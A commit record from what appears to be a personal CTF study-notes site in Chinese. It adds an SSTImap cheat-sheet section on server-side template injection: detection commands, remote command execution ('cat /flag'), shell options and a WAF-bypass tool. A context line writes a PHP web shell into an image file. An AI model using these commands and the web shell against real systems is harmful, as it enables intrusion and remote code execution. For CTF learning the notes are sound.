

Before and after one commit to guang12-c/ctf-notes, an MkDocs documentation site: the page built from docs/knowledge/web/工具命令速查.md, in a window 1280 px wide and 1400 px high, scrolled down 8488 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 9861 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
知识点:新建 SSTI 专题(11章:探针/两条链/逐环解剖/Jinja语法/绕过/十个坑);工具页加 SSTImap

````diff
--- a/docs/knowledge/web/工具命令速查.md
+++ b/docs/knowledge/web/工具命令速查.md
@@ -15,6 +15,7 @@
 | `.git` 目录泄露 | `git-dumper` | 已在 PATH |
 | 图片马 / 看元信息 | `exiftool` | `E:\dsh\tools` |
 | 本地跑 PHP、算序列化 | `php.exe` | 已在 PATH（7.4）|
+| 页面回显 `49` 或 `7777777`（SSTI）| `SSTImap` | `E:\dsh\tools\SSTImap` |
 | 扫目录要字典 | `E:\dsh\tools\dict\` | 5 本 |
 
 **顺序永远是：先手工看现象 → 再上工具。** 一上来就挂 sqlmap，多半是浪费时间。
@@ -250,7 +251,68 @@ $ET -Comment="<?php system(\$_GET[1]);?>" -o shell.jpg 1.jpg   # 写马到副本
 
 ---
 
-## 8. 字典
+## 8. SSTImap —— SSTI 模板注入
+
+**tplmap 的 Python 3 续作**（tplmap 是 Python 2 的，已归档，跑不了）。装在 `E:\dsh\tools\SSTImap`。
+
+### 先记 `*` 的含义
+
+```text
+*  =  注入点标记，放在「你的输入会出现在哪儿」的位置
+```
+
+### 三条命令
+
+```powershell
+$SM = 'E:\dsh\tools\SSTImap\sstimap.py'
+
+# ① 探测：有没有 SSTI、什么引擎
+python $SM -u "http://target/qaq?name=*"
+
+# ② 限定引擎，快一点（已知是 Jinja2）
+python $SM -u "http://target/qaq?name=*" -e jinja2
+
+# ③ 直接执行命令
+python $SM -u "http://target/qaq?name=*" -e jinja2 -S "cat /flag"
+```
+
+### 常用参数
+
+| 参数 | 用途 |
+|---|---|
+| `--data "name=*"` | 注入点在 POST 参数里 |
+| `-C "k=v"` | 带 cookie |
+| `-p http://127.0.0.1:8080` | 走 Burp，方便看流量 |
+| `-l 5` | 加大探测等级（更多引擎、更多变体） |
+| `--tpl-shell` | 进模板语言交互 shell（自己写 Jinja 表达式） |
+| `--eval-shell` | 进宿主语言交互 shell（Python） |
+
+### 输出长什么样（本机实测）
+
+```text
+[+] Jinja2 plugin has confirmed injection with tag '*'
+[+] SSTImap identified the following injection point:
+    Engine: Jinja2
+    Injection: *
+Shell command execution: ok
+```
+
+### 备选
+
+| 工具 | 特点 |
+|---|---|
+| **Fenjing** | `pip install fenjing`；`fenjing webui` 开图形界面；**专门针对 Jinja2/Flask，带 WAF 绕过** |
+| tplmap 的 Burp 插件 | `E:\dsh\tools\tplmap\burp_extension.py`，抓到包后右键快速试 |
+
+### 坑
+
+1. **它只解决"探测"和"最普通的那条链"**。遇到过滤、下标对不上、语法细节（`__bases__[0]`、`.['x']`），工具全帮不上，还是得手打。
+2. **别拿它当"自动解题"**。跑出 `Shell command execution: ok` 之后，命令还是你自己想。
+3. `-S` 里的命令要单引号包起来；Windows 本地靶场上可能出现编码报错，换 `echo` 这种纯 ASCII 的输出。
+
+---
+
+## 9. 字典
 
 ```
 E:\dsh\tools\dict\
@@ -264,7 +326,7 @@ E:\dsh\tools\dict\
 
 ---
 
-## 9. 十秒探路（先跑这个）
+## 10. 十秒探路（先跑这个）
 
 不知道站里有什么时，先扫这几个常见泄露点，一条命令：
 
@@ -279,7 +341,7 @@ $base = 'http://target'
 
 ---
 
-## 10. 还没装，用到再说
+## 11. 还没装，用到再说
 
 | 工具 | 用来干什么 | 装法 |
 |---|---|---|
@@ -289,7 +351,7 @@ $base = 'http://target'
 
 ---
 
-## 11. Windows 上通用的四个坑
+## 12. Windows 上通用的四个坑
 
 1. **`curl` 不是 curl** —— 一律写 `curl.exe`
 2. **引号**：PowerShell 单引号是字面量（和 Linux 一样），但**别加 `\` 转义**
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -135,6 +135,9 @@ nav:
       - 反序列化:
           - knowledge/deserialization/index.md
           - 反序列化专题: knowledge/deserialization/反序列化专题.md
+      - SSTI:
+          - knowledge/ssti/index.md
+          - SSTI 专题: knowledge/ssti/SSTI专题.md
       - Web 通用:
           - knowledge/web/index.md
           - CTF-Web 学习笔记: knowledge/web/CTF-Web学习笔记.md
````
Also changed, not shown: docs/knowledge/index.md (+2 -1 lines), docs/knowledge/ssti/SSTI专题.md (added, +412 -0 lines), docs/knowledge/ssti/index.md (added, +56 -0 lines).
